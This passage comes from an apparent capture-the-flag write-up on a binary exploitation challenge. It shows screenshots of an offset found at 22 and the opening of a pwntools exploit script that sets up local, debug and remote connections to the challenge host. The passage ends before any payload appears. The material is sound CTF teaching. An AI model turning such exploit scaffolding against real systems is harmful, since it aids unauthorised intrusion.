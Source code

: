 <figure><img src="../../.gitbook/assets/image (165).png" alt=""><figcaption><p>found offset at 22</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (166).png" alt=""><figcaption><p>confirming offset</p></figcaption></figure>

to perform the write, use <mark style="color:orange;">pwntools</mark> built-in to build payload.

Below is the full exploit script:

{% code title="exploit.py" %}
```python
#!/usr/bin/env python3
from pwn import *

# =========================================================
#                          SETUP                         
# =========================================================
exe = './chal'
elf = context.binary = ELF(exe, checksec=True)
libc = './lib/libc.so.6'
libc = ELF(libc, checksec=False)
context.log_level = 'debug'
context.terminal = ["tmux", "splitw", "-h"]
host, port = 'chal.amt.rs', 1338

def initialize(argv=[]):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript)
    elif args.REMOTE:
        return remote(host, port)
    else:
        return process([exe] + argv)

gdbscript = '''
init-pwndbg
'''.format(**locals())
```